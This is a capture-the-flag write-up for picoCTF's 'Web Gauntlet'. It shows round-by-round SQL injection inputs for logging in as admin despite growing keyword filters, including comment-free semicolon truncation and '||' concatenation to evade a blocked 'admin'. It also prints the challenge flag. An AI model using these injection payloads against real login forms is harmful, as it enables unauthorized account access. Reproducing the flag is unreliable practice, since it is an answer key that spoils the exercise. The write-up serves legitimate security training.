# **_Web Gauntlet_**
## Description
Can you beat the filters? Log in as admin `http://jupiter.challenges.picoctf.org:54319/` `http://jupiter.challenges.picoctf.org:54319/filter.php`
## Solution
### Round 1
> Filter: or

Put `admin';` for `username`, so it ignores the `AND password=` condition
>SELECT * FROM users WHERE username='admin';' AND password='a'

### Round 2
>Filter: or and like = --

`;` is not filtered, so same input from round 1 still works
>SELECT * FROM users WHERE username='admin';' AND password='a'

### Round 3
>Filter: or and = like > < --

`;` still not filtered
>SELECT * FROM users WHERE username='admin';' AND password='a'

### Round 4
> Filter: or and = like > < -- admin

`;` still not filtered, however `admin`is filtered, use `||` for string concatenate 
>SELECT * FROM users WHERE username='admi'||'n';' AND password='a'

### Round 5
> Filter: or and = like > < -- union admin

Same input from round 4
>SELECT * FROM users WHERE username='admi'||'n';' AND password='a'

Get the flag from `filter.php`
> picoCTF{y0u_m4d3_1t_a5f58d5564fce237fbcc978af033c11b}